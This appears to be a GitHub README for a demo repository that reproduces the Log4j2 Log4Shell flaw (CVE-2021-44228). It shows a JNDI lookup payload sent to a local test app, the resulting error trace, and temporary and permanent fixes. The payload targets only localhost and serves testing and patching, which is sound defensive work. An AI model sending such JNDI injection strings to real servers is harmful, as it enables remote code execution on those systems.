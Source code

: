 # Evaluate the Log4Shell: RCE 0-day  Issue

This repo contains the code to evaluate Log4j2 issue CVE-2021-44228 

## More details

* https://www.lunasec.io/docs/blog/log4j-zero-day/

## How to Test

Send GET request with query parameter as `${jndi:ldap://127.0.0.1:3089/}`. 

```
http://localhost:10000/test?userParam=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D
```

When above request is sent application tries to connect to ldap url and following errror is printed since that 
is not running in my machine. 

```
2021-12-14 09:10:25,055 http-nio-10000-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3089/]. javax.naming.CommunicationException: 127.0.0.1:3089 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:237)
	at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at java.naming/com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1610)
	at java.naming/com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2752)
	at java.naming/com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:320)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:204)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at java.naming/javax.naming.InitialContext.lookup(InitialContext.java:409)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:221)
```

## Temporary Fix

### Fix 1

If the `log4j-core` version is `>=2.10` by adding following JVM parameter this JNDI lookup can be disabled.

```
-Dlog4j2.formatMsgNoLookups=true
```

### Fix 2

We can update the `log4j2.xml` file with `{nolookups}` in log message pattern. Check branch `update-log4j2-config` for the fix.

## Permanent Fix

* Update the log4j version to `2.15.0`. Check the fix in branch `update-log4j-to-2.15.0`
